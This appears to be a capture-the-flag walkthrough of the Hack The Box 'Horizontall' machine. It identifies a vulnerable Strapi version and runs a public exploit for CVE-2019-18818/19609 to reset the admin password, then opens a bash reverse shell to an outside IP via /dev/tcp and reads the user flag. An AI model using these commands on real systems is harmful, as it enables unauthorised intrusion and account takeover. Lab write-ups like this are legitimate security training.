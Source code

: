First things to try `sqlmap`...nothing

From `http://api-prod.horizontall.htb/admin/init` we found the strapi version

```
{"data":{"uuid":"a55da3bd-9693-4a08-9279-f9df57fd1817","currentEnvironment":"development","autoReload":false,"strapiVersion":"3.0.0-beta.17.4"}}
```

This version of strapi seem vulnerable to a RCE ([CVE-2019-18818, CVE-2019-19609](https://www.exploit-db.com/exploits/50239))

```
$ python poc.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjM2NjcwNTk4LCJleHAiOjE2MzkyNjI1OTh9.xiterdpePPCl3wIZB5A_5BZTfs-KVz9-tY1shMhWxUM
```

Now we can spawn a reverse shell

```
$> bash -c 'bash -i >& /dev/tcp/10.10.16.69/4242 0>&1'
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

```console
$ sudo nc -nlvp 4242
Listening on 0.0.0.0 4242
Connection received on 10.10.11.105 33226
bash: cannot set terminal process group (1889): Inappropriate ioctl for device
bash: no job control in this shell
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
4635b65b9e023728503fd6516a7aeebe
```

#### **USER OWN >>** `4635b65b9e023728503fd6516a7aeebe`

We can now create a private key and use that to login from a "real ssh session" (it becomes more easy to navigate with autocomplete enabled)

Next step, own the system

Let' start to analyze what other services we have (in the strapi interface we saw some redirect to `localhost:1337`)

```console
strapi@horizontall:~$ netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1862/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
```
